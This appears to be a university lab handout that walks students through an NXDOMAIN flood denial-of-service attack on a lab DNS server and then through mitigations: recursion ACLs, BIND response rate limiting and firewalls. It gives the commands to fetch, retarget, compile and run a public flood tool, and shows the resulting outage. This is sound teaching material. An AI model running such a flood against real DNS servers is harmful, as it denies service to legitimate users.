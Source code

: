 A common DNS Denial-of-Service attack is NXDOMAIN attack.
`NXDOMAIN` (Non eXistent DOMAIN) is the error you receive when checking for an nonexistent domain name:

```bash
$ host magic.scgc.ro
Host magic.scgc.ro not found: 3(NXDOMAIN)
```
When flooding a DNS Server with unique requests that will return `NXDOMAIN`, you
may make the server unavailable for legitimate requests.

We will see how to make a denial of service attack on a DNS server.
You will need to open three terminals to the host (SCGC Template).

:::warning
For the sake of this task, enable recursion for the helper VM. This should be already configured from the previous task, but double check to make sure.
:::

Connect to the helper VM.
Clone the following repository and change the working directory:

```bash
[student@helper ~]$ git clone https://github.com/shiroe41/DNS-NXDOMAIN-FLood-Attack
[student@helper ~]$ cd DNS-NXDOMAIN_FLood-Attack/src
```

Modify the source code to use your DNS server IP address and compile the code:

```bash
[student@helper ~]$ grep dest_sock_addr.sin_addr.s_addr dos_attack.c
    dest_sock_addr.sin_addr.s_addr = inet_addr("192.168.100.11");  /* target DNS server ip address */
    ip_header->ip_dst.s_addr = dest_sock_addr.sin_addr.s_addr;
[student@helper ~]$ gcc -o dos_attack dos_attack.c
```

Interrogate your DNS server to check if everything works fine (both from the base VM and from the helper VM).

:::note
Use <your_last_name>.scgc.ro (the domain you configured earlier) for testing. In the following examples we will be using scgc.ro as our domain.
:::

```bash
$ host scgc.ro dns
Using domain server:
Name: 192.168.100.11
Address: 192.168.100.11#53
Aliases:

scgc.ro mail is handled by 42 mail.scgc.ro.
scgc.ro mail is handled by 60 mail2.scgc.ro.
```

From the base VM, run `tcpdump`:

```bash
$ sudo tcpdump -i virbr-labs udp port 53 # we check only the DNS traffic
```

From the first terminal, start the attack:

```bash
[student@helper ~]$ sudo ./dos_attack
```

While the attack is running, from the base VM, test the DNS server:

```bash
$ host scgc.ro 192.168.100.11
Using domain server:
Name: 192.168.100.11
Address: 192.168.100.11#53
Aliases:

;; connection timed out; no servers could be reached
```
The server will hardly respond or will fail.

Stop the attack and the tcpdump. Inspect the tcpdump output:

```bash
...
23:26:48.364788 IP 10.0.2.20.29264 > 192.168.100.11.domain: 40664+ A? idcdy.fuawv.lulix. (35)
23:26:48.364829 IP 10.0.2.20.8518 > 192.168.100.11.domain: 11612+ A? lsrae.olszf.lkttp. (35)
23:26:48.364870 IP 10.0.2.20.46214 > 192.168.100.11.domain: 28079+ A? ctqzq.bvblt.xltqp. (35)

^C
760212 packets captured
1864674 packets received by filter
1104462 packets dropped by kernel
```

We can see that a high number of packages were sent to the DNS server in a short time.
Pay attention to the DNS requests: all the domains are randomly generated.

A mitigation method is to allow recursion only for some hosts.
You can either remove the helper VM from the ACL list or disable recursion.
Redo the steps above and check the new behaviour.
Even though the DNS Server does not make any more recursive queries and the
attacker's queries are refused, the server is still flooded and unavailable.

Another workaround is to limit the response rate. By adding the following lines in
your `/etc/bind/named.conf.options` file, you can limit the number of unique responses
that are delivered each second:

```
...
options {
...

	rate-limit {
		responses-per-second 20;
	};
...
};
```

Restart bind and redo the attack steps. You can see in the tcpdump output that the
DNS server ignores the queries from the helper network, and legitimate queries are resolved.
However, you should be careful when you set this option since it may affect legitimate traffic
(depending on your expected traffic).

:::important
Usually, the best way to mitigate these attacks is to use a firewall. You can set your DNS server
behind a dedicated firewall (CISCO, FortiGate, Juniper, PaloAlto, pfSense, MikroTik) or use a software
firewall on your server.
:::
